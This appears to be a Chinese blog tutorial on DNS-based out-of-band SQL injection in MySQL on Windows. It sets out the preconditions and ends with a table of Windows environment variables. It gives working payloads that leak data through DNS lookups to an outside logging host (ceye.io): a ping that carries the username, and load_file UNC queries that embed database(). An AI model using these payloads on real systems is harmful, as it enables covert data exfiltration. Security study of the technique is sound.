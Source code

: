# 基于dns的sql注入

这也不是什么新东西了- -，主要是用于无回显的注入，将数据外带出来。和时间盲注和布尔盲注作用相似

有以下几个条件需要满足:

1. 需要是服务端是window系统
   
主要是`load_file()`读取时候可以用`\\`加远端地址读取远端服务器文件（windows特性，另外不需要远端有对应文件，只需要这个dns查询过程）

2. 需要`secure_file_priv`为空

`secure_file_priv`地址为mysql指定的可以读取的磁盘或者文件的地址，可以在my.ini中修改，加上地址后就只能读取指定磁盘或文件夹下的文件了。另外可以用查询语句查看:`show variables like '%secure%';`


使用ceye.io平台做测试（当然自建域名也是可以的，查看dnslog中的查询记录就行）

该平台提供了各种payload，如:

`ping %USERNAME%.b182oj.ceye.io`（linux可以通过反引号执行命令）

执行后在界面就能看到记录。

<img src='.https://0xfay.github.io/public/image/171050.jpg'>

然后是mysql的payload:

`select load_file('\\\\fay.xxx.ceye.io\\aaa');`

<img src='.https://0xfay.github.io/public/image/180116.jpg'>

可以看到。前面的部分有回显，我们将这部分更改为我们需要的数据

`SELECT * FROM users WHERE id='1' and if((select load_file(concat('\\\\',(select database()),'.xxxxx.ceye.io\\abc'))),1,0)`

这个ceye.io好像还有更多骚操作，之后碰到再记录，文下附上一些windows常用变量


```
//变量                     类型       描述
//%ALLUSERSPROFILE%        本地       返回“所有用户”配置文件的位置。
//%APPDATA%                本地       返回默认情况下应用程序存储数据的位置。
//%CD%                     本地       返回当前目录字符串。
//%CMDCMDLINE%             本地       返回用来启动当前的 Cmd.exe 的准确命令行。
//%CMDEXTVERSION%          系统       返回当前的“命令处理程序扩展”的版本号。
//%COMPUTERNAME%           系统       返回计算机的名称。
//%COMSPEC%                系统       返回命令行解释器可执行程序的准确路径。
//%DATE%                   系统       返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。
//%ERRORLEVEL%             系统       返回上一条命令的错误代码。通常用非零值表示错误。
//%HOMEDRIVE%              系统       返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%HOMEPATH%               系统       返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%HOMESHARE%              系统       返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
//%LOGONSERVER%            本地       返回验证当前登录会话的域控制器的名称。
//%NUMBER_OF_PROCESSORS%   系统       指定安装在计算机上的处理器的数目。
//%OS%                     系统       返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。
//%PATH%                   系统       指定可执行文件的搜索路径。
//%PATHEXT%                系统       返回操作系统认为可执行的文件扩展名的列表。
//%PROCESSOR_ARCHITECTURE% 系统       返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。
//%PROCESSOR_IDENTFIER%    系统       返回处理器说明。
//%PROCESSOR_LEVEL%        系统       返回计算机上安装的处理器的型号。
//%PROCESSOR_REVISION%     系统       返回处理器的版本号。
//%PROMPT%                 本地       返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。
//%RANDOM%                 系统       返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。
//%SYSTEMDRIVE%            系统       返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。
//%SYSTEMROOT%             系统       返回 Windows server operating system 根目录的位置。
//%TEMP%和%TMP%            系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。
//%TIME%                   系统       返回当前时间。使用与                                                                                   time       /t                                                                     命令相同的格式。由         Cmd.exe                  生成。有关                       time   命令的详细信息，请参阅 Time。
//%USERDOMAIN%             本地       返回包含用户帐户的域的名称。
//%USERNAME%               本地       返回当前登录的用户的名称。
//%USERPROFILE%            本地       返回当前用户的配置文件的位置。
//%WINDIR%                 系统       返回操作系统目录的位置。
```
